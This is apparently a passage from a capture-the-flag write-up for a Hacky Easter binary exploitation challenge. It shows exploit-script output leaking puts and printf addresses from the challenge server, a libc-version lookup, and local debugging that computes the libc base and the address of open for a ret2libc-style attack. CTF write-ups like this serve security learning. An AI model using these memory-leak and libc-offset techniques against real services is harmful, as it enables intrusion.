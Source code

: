 also leaking printf:

```
$ python3 solve.py 
[+] Opening connection to ch.hackyeaster.com on port 2314: Done

puts leak: 0x7fccc4b91970
printf leak: 0x7fccc4b75e40
[*] Switching to interactive mode
 $ 
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to ch.hackyeaster.com port 2314
[*] Got EOF while sending in interactive
```

using the program from hacktricks: i got my right libc version!

```
$ ./find puts 0x7f1b84a08820 printf 0x7f1b849e3450
kali-glibc (libc6_2.36-8_amd64)
kali-glibc (libc6_2.36-9_amd64)
kali-glibc (libc6-amd64_2.36-8_i386)
kali-glibc (libc6-amd64_2.36-9_i386)

$ ldd --version
ldd (Debian GLIBC 2.36-9) 2.36
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```

the program gave me the same results as the website!

```
./find puts 0x7fccc4b91970 printf 0x7fccc4b75e40
ubuntu-glibc (libc6_2.27-3ubuntu1.5_amd64)
ubuntu-glibc (libc6_2.27-3ubuntu1.6_amd64)
```

trying to get the address of open locally:

```
pwndbg> p open
$1 = {int (const char *, int, ...)} 0x7f52b38b3d50 <__libc_open64>
pwndbg> p puts
$2 = {int (const char *)} 0x7f52b3833820 <__GI__IO_puts>


$ python3 solve.py 
[+] Starting local process './main': pid 27189
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

puts leak: 0x7f52b3833820
calculates libc base: 0x7f52b37bc000
libc open: 0x7f52b38b3d50
[*] Switching to interactive mode
 $ 
$ 
[*] Got EOF while reading in interactive
```
